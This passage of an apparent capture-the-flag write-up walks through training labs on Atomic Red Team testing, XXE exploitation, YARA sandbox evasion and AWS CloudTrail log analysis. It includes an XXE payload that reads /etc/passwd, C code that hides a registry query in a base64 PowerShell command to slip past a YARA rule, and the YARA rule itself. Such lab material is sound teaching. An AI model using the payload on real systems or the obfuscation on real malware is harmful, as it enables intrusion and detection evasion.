Unaware of Glitch's good intentions, the SOC team spotted anomalies: Logs showing admin access, escalation of privileges, patched systems behaving differently, and security tools triggering alerts. The SOC team misinterpreted the system modifications as a sign of an insider threat or rogue attacker and decided to launch an investigation using the Atomic Red Team framework.

### Learning Objectives

* Learn how to identify malicious techniques using the MITRE ATT&CK framework.
* Learn about how to use Atomic Red Team tests to conduct attack simulations.
* Understand how to create alerting and dectection rules from the attack tests.

### Detection Gaps

While it might be the utopian dream of every blue teamer, we will rarely be able to detect every attack or step in an attack kill chain. This is a reality that all blue teamers face: there are gaps in their detection. But worry not! These gaps do not have to be the size of black holes; there are things we can do to help make these gaps smaller.

Detection gaps are usually for one of two main reasons:
* **Security is a cat-and-mouse game.** As we detect more, the threat actors and red teamers will find new sneaky ways to thwart our detection. We then need to study these novel techniques and update our signature and alert rules to detect these new techniques.
* **The line between anomalous and expected behaviour is often very fine and sometimes even has significant overlap.** For example, let's say we are a company based in the US. We expect to see almost all of our logins come from IP addresses in the US. One day, we get a login event from an IP in the EU, which would be an anomaly. However, it could also be our CEO travelling for business. This is an example where normal and malicious behaviour intertwine, making it hard to create accurate detection rules that would not have too much noise.

Blue teams constantly refine and improve their detection rules to close the gaps they experience due to the two reasons mentioned above. Let's take a look at how this can be done!

### Cyber Attacks and the Kill Chain

Before diving into creating new detection rules, we first have to discuss some key topics. The first topic to discuss is the Cyber Kill chain. All cyber attacks follow a fairly standard process, which is explained quite well by the Unified Cyber Kill chain:


As a blue teamer, it would be our dream to prevent all attacks at the start of the kill chain. So even just when threat actors start their reconnaissance, we already stop them dead in their tracks. But, as discussed before, this is not possible.

The goal then shifts slightly. If we are unable to fully detect and prevent a threat actor at any one phase in the kill chain, the goal becomes to perform detections across the entire kill chain in such a way that even if there are detection gaps in a single phase, the gap is covered in a later phase. The goal is, therefore, to ensure we can detect the threat actor before the very last phase of goal execution.

### MITRE ATT&CK

A popular framework for understanding the different techniques and tactics that threat actors perform through the kill chain is the MITRE ATT&CK framework. The framework is a collection of tactics, techniques, and procedures that have been seen to be implemented by real threat actors. However, the framework primarily discusses these TTPs in a theoretical manner. Even if we know we have a gap for a specific TTP, we don't really know how to test the gap or close it down. This is where the Atomics come in!

### Atomic Red

The Atomic Red Team library is a collection of red team test cases that are mapped to the MITRE ATT&CK framework. The library consists of simple test cases that can be executed by any blue team to test for detection gaps and help close them down. The library also supports automation, where the techniques can be automatically executed. However, it is also possible to execute them manually.

### How to use Atomic Red

Quick overview of the parameters:

| **Parameter**       | **Description**                                                                      | **Example use**                                                                       |
| ------------------- | ------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------- |
| `-AtomicTechnique`  | Defines what technique we want to emulate.                                           | `Invoke-AtomicTest -AtomicTechnique T1566.001`                                        |
| `-ShowDetails`      | Shows the details of each test included in the Atomic.                               | `Invoke-AtomicTest T1566.001 -ShowDetails`                                            |
| `-ShowDetailsBrief` | Shows the title of each test included in the Atomic.                                 | `Invoke-AtomicTest T1566.001 -ShowDetailsBrief`                                       |
| `-CheckPrereqs`     | Provides a check if all necessary components are present for testing                 | `Invoke-AtomicTest T1566.001 -CheckPrereqs`                                           |
| `-TestNames`        | Sets the tests we want to execute using the complete Atomic Test Name.               | `Invoke-AtomicTest T1566.001 -TestNames "Download Macro-Enabled Phishing Attachment"` |
| `-TestGuids`        | Sets the tests we want to execute using the unique test identifier.                  | `Invoke-AtomicTest T1566.001 -TestGuids 114ccff9-ae6d-4547-9ead-4cd69f687306`         |
| `-TestNumbers`      | Sets the tests we want to execute using the test number.                             | `Invoke-AtomicTest T1566.001 -TestNumbers 2,3`                                        |
| `-Cleanup`          | Run the cleanup commands that were configured to revert our machine state to normal. | `Invoke-AtomicTest T1566.001 -TestNumbers 2 -Cleanup`                                 |

### Answering questions

> What was the flag found in the `.txt` file that is found in the same directory as the `PhishingAttachment.xslm` artefact?
> We follow the instructions to find the flag.

> What ATT&CK technique ID would be our point of interest?
> Found on the MITRE ATT&CK framework.

> What ATT&CK subtechnique ID focuses on the Windows Command Shell?
> Found on the MITRE ATT&CK framework.

> What is the name of the Atomic Test to be simulated?
> We found one simulating BlackByte ransomware. The result is the name of this test.

> What is the name of the file used in the test?
> Found in the script of previously mentioned test.

> What is the flag found from this Atomic Test?
> Run the test and find out.

## [XXE] Day 5: SOC-mas XX-what-ee?

### The Story

The days in Wareville flew by, and Software's projects were nearly complete, just in time for Christmas. One evening, after wrapping up work, Software was strolling through the town when he came across a young boy looking dejected. Curious, Software asked, "What would you like for Christmas?" The boy replied with a sigh, "I wish for a teddy bear, but I know that my family can't afford one."

This brief conversation sparked an idea in Software's mind - what if there was a platform where everyone in town could share their Christmas wishes, and the Mayor's office could help make them come true? Excited by the potential, Software introduced the idea to Mayor Malware, who embraced it immediately. The Mayor encouraged the team to build the platform for the people of Wareville.

Through the developers' dedication and effort, the platform was soon ready and became an instant hit. The townspeople loved it! However, in their rush to meet the holiday deadline, the team had overlooked something critical - thorough security testing. Even Mayor Malware had chipped in to help develop a feature in the final hours. Now, it's up to us to ensure the application is secure and free of vulnerabilities. Can we guarantee the platform runs safely for the people of Wareville?

### Learning Objectives

* Undestand the basic concepts related to XML
* Explore XML External Entity (XXE) and its components
* Learn how to exploit the vulnerability
* Understand remediate measures

### Important Concepts

#### Extensible Markup Language (XML)

XML is a commonly used method to transport and store data in a structured format that humans and machines can easily understand.

Consider a scenario where two computers need to communicate and share data. Both devices need to agree on a common format for exchanging information. This agreement is known as XML. We can think of XML as a digital filing cabinet. Just as a filing cabinet has folders with labelled documents inside, XML uses tags to label and organise information. These tags are like folders that define the type of data stored.

This is what an XML looks like, a simple piece of text information organised in a structured manner:

```xml
<people>
   <name>Glitch</name>
   <address>Wareville</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

#### Document Type Definition (DTD)

Now that the two computers have agreed to share data in a common format, what about the structure of the format? Here is when the DTD comes into play. A DTD is a set of rules that defines the structure of an XML document.

Just like a database scheme, it acts like a blueprint, telling us what elements (tags) and attributes are allowed in the XML file. Think of it as a guideline that ensures the XML document follows a specific structure.

For example, if we want to ensure that an XML document about `people` will always include a `name`, `address`, `email`, and `phone number`, we would define those rules through a DTD as shown below:

```xml
<!DOCTYPE people [
   <!ELEMENT people(name, address, email, phone)>
   <!ELEMENT name (#PCDATA)>
   <!ELEMENT address (#PCDATA)>
   <!ELEMENT email (#PCDATA)>
   <!ELEMENT phone (#PCDATA)>
]>
```

In the above DTD, `<!ELEMENT>` defines the tags that are allowed, whereas `#PCDATA` stands for parsed character data, which means the data inside the tags will be parsed as text.

#### Entities

So far, both computers have agreed on the format, the structure of data, and the type of data they will share. Entities in XML are placeholders that allow the insertion of large chunks of data or referencing internal or external files. They assist in making the XML file easy to manage, especially when the same data is repeated multiple times. Entities can be defined internally within the XML document or externally, referencing data from an outside source.

For example, an external entity references data from an external file or resource. In the following code, the entity `&ext;` could refer to an external file located at `"http://tryhackme.com/robots.txt"`, which would be loaded into the XML, if allowed by the system:

```xml
<!DOCTYPE people [
   <!ENTITY ext SYSTEM "http://tryhackme.com/robots.txt">
]>
<people>
   <name>Glitch</name>
   <address>&ext;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

We are specifically discussing external entities because it is one of the main reasons that XXE is introduced if it is not properly managed.

#### XML External Entity (XXE)

After understanding XML and how entities work, we can now explore the XXE vulnerability. XXE is an attack that takes advantage of how XML parsers handle external entities. When a web application processes an XML file that contains an external entity, the parser attempts to load or execute whatever resource the entity points to. If necessary sanitisation is not in place, the attacker may point the entity to any malicious source/code causing the undesired behaviour of the web app.

For example, if a vulnerable XML parser processes this external entity definition:

```xml
<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>Glitch</name>
   <address>&thmFile;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

Here, the entity `&thmFile;` refers to the sensitive file `/etc/passwd` on a system. When the XML is processed, the parser will try to load and display the contents of that file, exposing sensitive information to the attacker.

### Practical

We are given IP of the target. Let's first visit the website to see what is there for us.


We have a website for everyone to make a wish. Let's try making a wish.


We made a wish and it was added. Now, let's try going to the cart section.



We can see our wish list here. Let's checkout.


After filling the details, our wish is saved as wish 21. Let's check it out.


We cannot see the wish. It tells us that the wish is only visible to the Santa's elves, which might mean that only the admin can see the wish. Logical. Let's try capturing the requests in Burp Suite. We will be going through all the requests we made before.


This is the only request that we see the XML data. Let's send this to Repeater and try to modify the XML data. We are going to try to read the `/etc/passwd` file.


We can see the contents of the `/etc/passwd` file. This is a clear indication of XXE vulnerability. Let's try seeing all the wishes. Let's guess the root directory for the web is `/var/www/html`. As our wish are numbered 21, we can be sure that there are 20 wishes before ours.

> What is the flag discovered after navigating through the wishes?
> The flag is found in wish 15.

### Conclusion

It was confirmed that the application was vulnerable, and the developers were not at fault since they only wanted to give the townspeople something before Christmas. However, it became evident that bypassing security testing led to an application that did not securely handle incoming requests.

As soon as the vulnerability was discovered, McSkidy promptly coordinated with the developers to implement the necessary mitigations. The following proactive approach helped to address the potential risks against XXE attacks:
* **Disable External Entity Loading:** The primary fix is to disable external entity loading in our XML parser. In PHP, for example, we can prevent XXE by setting `libxml_disable_entity_loader(true)` before processing the XML.
* **Validate and Sanitise User Input:** Always validate and sanitise the XML input received from users. This ensures that only expected data is processed, reducing the risk of malicious content being included in the request.

After discovering the vulnerability, McSkidy immediately remembered that a `CHANGELOG` file exists within the web application. After checking, it can be seen that someone pushed the vulnerable code within the application after Software's team.


With this discovery, McSkidy still couldn't confirm whether the Mayor intentionally made the application vulnerable. However, the Mayor had already become suspicious, and McSkidy began to formulate theories about his possible involvement.

## [Sandboxes] Day 6: If I can't find a nice malware to use, I'm not going.

### The Story

*Mayor Malware was scheming, quite full of delight,*  
*To ruin SOC-mas and frighten SOC teams.*  
*But Glitch and McSkidy had spoiled his plan,*  
*By uncovering secrets that exposed the man!*

Mayor Malware slammed his hand on the table, his eyes narrowing as the report flashed on his screen. Glitch and McSkidy had uncovered his trail. He took a deep breath, calming himself. "No matter," he muttered, a sinister grin forming. "They may have found me but haven't stopped me." His confidence stemmed from the malware he had crafted—so devious and advanced that it would easily evade detection.

But before unleashing it to wreak havoc on SOC teams and ruin SOC-mas, there was one final step. He needed to test it in a sandbox.

### Learning Objectives

* Analyze malware behaviour using sandbox tools.
* Explore how to use YARA rules to detect malicious patterns.
* Learn about various malware evasion techniques.
* Implement an evasion technique to bypass YARA rule detection.

### Detecting Sandboxes

A sandbox is an isolated environment where (malicious) code is executed without affecting anything outside the system. Often, multiple tools are installed to monitor, record, and analyze the code's behaviour.

Mayor Malware knows that before his malware executes, it needs to check if it is running on a Sandbox environment. If it is, then it should not continue with its malicious activity.

To do so, he has settled on one technique, which checks if the directory `C:\Program Files` is present by querying the Registry path `HKLM\\Software\\Microsoft\\Windows\\CurrentVersion`.

This directory is often absent on sandboxes or other virtualized environments, which could indicate that the malware is running in a sandbox.

Here's what it looks like in the C Programming Language:

```c
void registryCheck() {
    const char *registryPath = "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion";
    const char *valueName = "ProgramFilesDir";
    
    // Prepare the command string for reg.exe
    char command[512];
    snprintf(command, sizeof(command), "reg query \"%s\" /v %s", registryPath, valueName);
    // Run the command
    int result = system(command);
    // Check for successful execution
    if (result == 0) {
        printf("Registry query executed successfully.\n");
    } else {
        fprintf(stderr, "Failed to execute registry query.\n");
    }
}
int main() {
    const char *flag = "[REDACTED]";
    registryCheck();
        return 0;

}
```

### Can YARA do it?

Mayor Malware knows that McSkidy is a big fan of YARA rules.

YARA is a tool used to identify and classify malware based on patterns in its code. By writing custom rules, analysts can define specific characteristics to look for - such as particular strings, file headers, or behaviours - and YARA will scan files or processes to find matches, making it invaluable for detecting malicious code.

Mayor Malware does not think such a simple tool can detect his malware. But just to be sure, he has to test it out himself.

To do this, he wrote a small script that executes a YARA detection rule every time a new event is added to the System monitor log. This particular YARA rule detects any command that tries to access the registry.

```yara
rule SANDBOXDETECTED
{
    meta:
        description = "Detects the sandbox by querying the registry key for Program Path"
        author = "TryHackMe"
        date = "2024-10-08"
        version = "1.1"

    strings:
        
    $cmd= "Software\\Microsoft\\Windows\\CurrentVersion\" /v ProgramFilesDir" nocase

    

    condition:
        $cmd
}
```

Let's understand the contents:
* In the `strings` section, we have defined variables that include the value to look out for: `$cmd`
* In the `condition` section, we define when the rule will match the scanned file. In this case, if any of the specified strings are present.

For his testing, Mayor Malware has set up a one-function script that runs the Yara rule and logs a true positive in `C:\Tools\YaraMatches.txt`. If our custom script did its job, we should have witnessed a popup by our EDR.

### Adding More Evasion Techniques

Ah, it seems that Yara can detect the evasion that Mayor Malware has added. No worries. Because we can make our malware even stealthier by introducing obfuscation.

```c


void registryCheck() {
// Encoded PowerShell command to query the registry
    const char *encodedCommand = "RwBlAHQALQBJAHQAZQBtAFAAcgBvAHAAZQByAHQAeQAgAC0AUABhAHQAaAAgACIASABLAEwATQA6AFwAUwBvAGYAdAB3AGEAcgBlAFwATQBpAGMAcgBvAHMAbwBmAHQAXABXAGkAbgBkAG8AdwBzAFwAQwB1AHIAcgBlAG4AdABWAGUAcgBzAGkAbwBuACIAIAAtAE4AYQBtAGUAIABQAHIAbwBnAHIAYQBtAEYAaQBsAGUAcwBEAGkAcgA=";
    // Prepare the PowerShell execution command
    char command[512];
    snprintf(command, sizeof(command), "powershell -EncodedCommand %s", encodedCommand);

    // Run the command
    int result = system(command);

    // Check for successful execution
    if (result == 0) {
        printf("Registry query executed successfully.\n");
    } else {
        fprintf(stderr, "Failed to execute registry query.\n");
    }  
}
```

The above code does the same thing: query the same registry key to get the information about the Program Data. The only difference is that the query is now encoded using base64, and the code uses the PowerShell to execute the query. The encoded string can be checked by decoding it using a tool like CyberChef.

### Beware of Floss

While obfuscation is helpful, we also need to know that there are tools available that extract obfuscated strings from malware binaries. One such tool is Floss, a powerful tool developed by Mandiant that functions similarly to the Linux strings tool but is optimized for malware analysis, making it ideal for revealing any concealed details.

### Using YARA Rules on Sysmon Logs

These YARA rules are becoming a pain to Mayor Malware's backside.

If he wants his malware to be undetectable, he needs to research how YARA rules can be used to stop him. For example, his research tells him that YARA rules can also be used to check Sysmon logs for any artefacts left by malware! He'll need to test this as well.

**Sysmon**, a tool from Microsoft's Sysinternals suite, continuously monitors and logs system activity across reboots. This Windows service provides detailed event data on process creation, network connections, and file changes - valuable insights when tracing malware behaviour.

A YARA rule will look for events with `event id 1: Process created` for this to work. There are many entries in the Sysmon log. To make it easier to find the event we are looking for, we will apply a custom filter using the `EventRecordID` that we can see in the log `YaraMatches.txt` located in `C:\Tools`.

### Never Gonna Give Up

*His malware, it seemed, wasn't quite ready for town.*  
*"There are watchers and scanners and rules by the ton!*  
*If I'm not careful, they'll catch all my fun!"*

Mayor Malware leaned back, tapping his fingers thoughtfully on the table. All of this research had revealed an unsettling truth: his malware, as cunning as it was, wasn't yet ready for the wild. There were too many tools and too many vigilant eyes - analysts armed with YARA rules, Sysmon, and a host of detection techniques that could expose his creation before it even had a chance to spread.

He clenched his fist, a determined glint in his eye. "Just a little more fine-tuning," he murmured. He would study, adapt, and evolve his malware until it was truly undetectable. When the time was right, he would unleash it upon the unsuspecting SOC teams, striking when they least expected it.

But for now, he would wait. Watching. Planning. And he was perfecting his craft in the shadows.

## [AWS Log Analysis] Day 7: Oh, no. I'M SPEAKING IN CLOUDTRAIL!

### The Story

*As SOC-mas approached, so did the need,*  
*To provide those without, with something to read.*  
*Care4Wares tried, they made it their mission,*  
*A gift for all wares, a SOC-mas tradition.*

*Although they had some, they still needed more,*  
*To pick up some books, they’d head to the store.*  
*The town’s favourite books, would no doubt make them jolly,*  
*They ticked off the list, as they filled up the trolley.*

*With the last book ticked off, the shopping was done,*  
*When asked for their card, the ware handed them one.*  
*“I’m sorry” he said, as the shop clerk reclined,*  
*“I can’t sell you these books, as your card has declined.”*

*The ware put them back, as they walked in confusion,*  
*How could this be? An attack? An intrusion?*  
*And when they logged on, the ware got a scare,*  
*To find the donations, they just weren’t there!*

### Monitoring in an AWS Environment

Care4Wares' infrastructure runs in the cloud, so they chose AWS as their Cloud Service Provider (CSP). Instead of their workloads running on physical machines on-premises, they run on virtualised instances in the cloud. These instances are (in AWS) called EC2 instances (Amazon Elastic Compute Cloud).

A few members of the Wareville SOC aren't used to log analysis on the cloud, and with a change of environment comes a change of tools and services needed to perform their duties. Their duties this time are to help Care4Wares figure out what has happened to the charity's funds; to do so, they will need to learn about an AWS service called CloudWatch.

#### Cloudwatch

AWS CloudWatch is a monitoring and observability platform that gives us greater insight into our AWS environment by monitoring applications at multiple levels. CloudWatch provides functionalities such as the monitoring of system and application metrics and the configuration of alarms on those metrics for the purposes of today's investigation, though we want to focus specifically on CloudWatch logs.

Running an application in a cloud environment can mean leveraging lots of different services (e.g. a service running the application, a service running functions triggered by that application, a service running the application backend, etc.); this translates to logs being generated from lots of different sources. CloudWatch logs make it easy for users to access, monitor and store the logs from all these various sources. A CloudWatch agent must be installed on the appropriate instance for application and system metrics to be captured.

A key feature of CloudWatch logs that will help the Warevile SOC squad and us make sense of what happened in their environment is the ability to query application logs using filter patterns. Here are some CloudWatch terms we should know before going further:
* **Log Events:** A log event is a single log entry recording an application "event"; these will be timestamped and packaged with log messages and metadata.
* **Log Streams:** Log streams are a collection of log events from a single source.
* **Log Groups:** Log groups are a collection of log streams. Log streams are collected into a log group when logically it makes sense, for example, if the same service is running across multiple hosts.

#### CloudTrail

CloudWatch can track infrastructure and application performance, but what if we wanted to monitor actions in our AWS environment? These would be tracked using another service called AWS CloudTrail. Actions can be those taken by a user, a role (granted to a user giving them certain permissions) or an AWS service and are recorded as events in AWS CloudTrail. Essentially, any action the user takes (via the management console or AWS CLI) or service will be captured and stored. Some features of CloudTrail include:
* **Always On:** CloudTrail is enabled by default for all users
* **JSON-formatted:** All event types captured by CloudTrail will be in the CloudTrail JSON format
* **Event History:** When users access CloudTrail, they will see an option "Event History", event history is a record of the actions that have taken place in the last 90 days. These records are queryable and can be filtered on attributes such as "resource" type.
* **Trails:** The above-mentioned event history can be thought of as the default "trail," included out of the box. However, users can define custom trails to capture specific actions, which is useful if we have bespoke monitoring scenarios we want to capture and store **beyond the 90-day event history retention period**.
* **Deliverable:** As mentioned, CloudWatch can be used as a single access point for logs generated from various sources; CloudTrail is no different and has an optional feature enabling CloudTrail logs to be delivered to CloudWatch.

As mentioned, Cloudtrail helps capture and record actions taken. These actions could be interactions with any number of AWS services. For example, services like S3 (Amazon Simple Storage Service used for object storage) and IAM (AWS's Identity and Access Management service can be used to secure access to our AWS environment with the creation of identities and the assigning of access permissions to those identities) will have actions taken within their service recorded. These recorded events can be very helpful when performing an investigation.

### Intro to JQ

#### What is JQ?

Earlier, it was mentioned that Cloudtrail logs were JSON-formatted. When ingested in large volumes, this machine-readable format can be tricky to extract meaning from, especially in the context of log analysis. The need then arises for something to help us transform and filter that JSON data into meaningful data we can understand and use to gain security insights.

That's exactly what JQ is (and does!). Similar to command line tools like sed, awk and grep, JQ is a lightweight and flexible command line processor that can be used on JSON.

#### How can it be used?

JQ takes two inputs: the filter we want to use, followed by the input file. We start our JQ filter with a `.` which just tells JQ we are accessing the current input. From here, we want to access the array of values stored in our JSON (with the `[]`). Making our filter a `.[]`.

Once we've accessed the array, we can grab elements from that array by going one step deeper. For example: `.[] | .book_title`.

### The Peculiar Case of Care4Wares' Dry Funds

Now that we have refreshed our knowledge of AWS Cloudtrail and JQ alongside McSkidy, let’s investigate this peculiar case of Care4Wares' dry funds.

The responsible ware for the Care4Wares charity drive gave us the following info regarding this incident:

*We sent out a link on the 28th of November to everyone in our network that points to a flyer with the details of our charity. The details include the account number to receive donations. We received many donations the first day after sending out the link, but there were none from the second day on. I talked to multiple people who claimed to have donated a respectable sum. One showed his transaction, and I noticed the account number was wrong. I checked the link, and it was still the same. I opened the link, and the digital flyer was the same except for the account number.*

McSkidy recalls putting the digital flyer, `wareville-bank-account-qr.png`, in an Amazon AWS S3 bucket named `wareville-care4wares`. Let’s assist McSkidy and start by finding out more about that link. Before that, let’s first review the information that we currently have to start the investigation:
* The day after the link was sent out, several donations were received.
* Since the second day after sending the link, no more donations have been received.
* A donator has shown proof of his transaction. It was made 3 days after he received the link. The account number in the transaction was not correct.
* McSkidy put the digital flyer in the AWS S3 object named `wareville-bank-account-qr.png` under the bucket `wareville-care4wares`.
* The link has not been altered.

### Glitch Did It

Some elements in a CloudTrail log:

| **Field**         | **Description**                                      |
| ----------------- | ---------------------------------------------------- |
| userIdentity      | Details of the user account that acted on an object. |
| eventTime         | When did the action occur?                           |
| eventType         | What type of event occurred?                         |
| eventSource       | From what service was the event logged?              |
| eventName         | What specific action occurred?                       |
| sourceIPAddress   | From what IP did the action happen?                  |
| userAgent         | What user agent was used to perform the action?      |
| requestParameters | What parameters were involved in the action?         |

By creating logs in CloudTrail, 5 logged events seem related to the `wareville-care4wares` bucket, and almost all are related to the user `glitch`. Aside from listing the objects inside the bucket (ListOBject event), the most notable detail is that the user `glitch` uploaded the file `wareville-bank-account-qr.png` on November 28th. This seems to coincide with the information we received about no donations being made 2 days after the link was sent out.

McSkidy is sure there was no user `glitch` in the system before. There is no one in the city hall with that name, either. The only person that McSkidy knows with that name is the hacker who keeps to himself. McSkidy suggests that we look into this anomalous user.

### McSkidy Fooled Us?

McSkidy wants to know what this anomalous user account has been used for, when it was created, and who created it. We can focus our analysis on the following questions:
* What event types are included in these log entries?
* What is the timestamp of these log entries?
* Which IPs are included in these log entries?
* What tool/OS was used in these log entries?

The results show that the user `glitch` mostly targeted the S3 bucket. The notable event is the **ConsoleLogin** entry, which tells us that the account was used to access the AWS Management Console using a browser. We can view the **userAgent** field to see what tool and OS were used in the requests.

There are 2 **userAgent** values included in all log entries related to the `glitch` user:

| **User Agent**                                                                                                                                                                                    | **Description**                                                                                                                                        |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `S3Console/0.4, aws-internal/3 aws-sdk-java/1.12.750 Linux/5.10.226-192.879.amzn2int.x86_64 OpenJDK_64-Bit_Server_VM/25.412-b09 java/1.8.0_412 vendor/Oracle_Corporation cfg/retry-mode/standard` | This is the userAgent string for the internal console used in AWS. It doesn’t provide much information.                                                |
| `Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36`                                                                           | This userAgent string provides us with 2 pieces of interesting information. The anomalous account uses a Google Chrome browser within a Mac OS system. |

An experienced attacker can forge these values, but we should not dismiss this information. It can be valuable when comparing different log entries for the same user. We will park the current information for now, let's gather more information to connect the dots.

The next interesting event to look for is who created this anomalous user account. We will filter for all IAM-related events, and this can be done by using the select filter `.eventSource == "iam.amazonaws.com"`. Let's try to answer the following questions:
* What Event Names are included in the log entries?
* What user executed these events?
* What is this user’s IP?

Based on the results, there are many **ListPolicies** events. By ignoring these events, it seems that the most significant IAM activity is about the user `mcskidy` invoking the **CreateUser** action and consequently invoking the **AttachUserPolicy** action. The source IP where the requests were made is `53.94.201.69`. Remember that it is the same IP the anomalous user `glitch` used.

As we have a more detailed look at the event related to the **CreateUser** action, it can be seen that it was the user, `mcskidy`, who created the anomalous account.

Now, we need to know what permissions the anomalous user has. It could be devastating if it has access to our whole environment. We need to filter for the **AttachUserPolicy** event to uncover the permissions set for the newly created user. This event applies access policies to users, defining the extent of access to the account.

McSkidy is baffled by these results. She knows that she did not create the anomalous user and did not assign the privileged access. She also doesn’t recognise the IP address involved in the events and does not use a Mac OS; she only uses a Windows machine. All this information is different to the typical IP address and machine used by McSkidy, so she wants to prove her innocence and asks to continue the investigation.

### Logs don't lie

McSkidy suggests looking closely at the IP address and operating system related to all these anomalous events.

There are 3 user accounts (`mcskidy`, `glitch` and `mayor_malware`) that were accessed from the same IP address. The next step is to check each user and see if they always work from that IP.

While gathering the information for each user, we can focus our investigation on the following questions:
* Which IP does each user typically use to log into AWS?
* Which OS and browser does each user usually use?
* Are there any similarities or explicit differences between the IP addresses and operating systems used?

Based on the results, we have proven that McSkidy used a different IP address before the unusual authentication was discovered. Moreover, all evidence seems to point towards another user after correlating the IP address and **User-Agent** used by each user. Who do you think it could be? McSkidy has processed all the investigation results and summarized them below:
* The incident starts with an anomalous login with the user account `mcskidy` from IP `53.94.201.69`.
* Shortly after the login, an anomalous user account `glitch` was created.
* Then, the `glitch` user account was assigned administrator permissions.
* The `glitch` user account then accessed the S3 bucket named `wareville-care4wares` and replaced the `wareville-bank-account-qr.png` file with a new one. The IP address and **User-Agent** used to log into the `glitch`, `mcskidy`, and `mayor_malware` accounts were the same.
* the User-Agent string and Source IP of recurrent logins by the user account `mcskidy` are different.

### Definite Evidence

McSkidy suggests gathering stronger proof that that person was behind this incident. Luckily, Wareville Bank cooperated with us and provided their database logs from their Amazon Relational Database Service (RDS). They also mentioned that these are captured through their CloudWatch, which differs from the CloudTrail logs as they are not stored in JSON format. For now, let’s look at the bank transactions stored in the `~/wareville_logs/rds.log` file.

McSkidy explained that all INSERT queries from the RDS log pertain to who received the donations made by the townspeople. Given this, we can see in the output the two recipients of all donations made within November 28th, 2024.

As shown above, the Care4wares Fund received all the donations until it changed into a different account at a specific time. The logs also reveal who received the donations afterwards, given the account owner's name. With all these findings, McSkidy confirmed the assumptions made during the investigation of the S3 bucket since the sudden change in bank details was reflected in the database logs. The timeline of events collected by McSkidy explains the connection of actions conducted by the culprit.

| **Timestamp**       | **Source**                            | **Event**                                      |
| ------------------- | ------------------------------------- | ---------------------------------------------- |
| 2024-11-28 15:22:18 | CloudWatch RDS logs (rds.log)         | Last donation received by the Care4wares Fund. |
| 2024-11-28 15:22:39 | CloudTrail logs (cloudtrail_log.json) | Bank details update on S3 bucket.              |
| 2024-11-28 15:23:02 | CloudWatch RDS logs (rds.log)         | First donation received by Mayor Malware.      |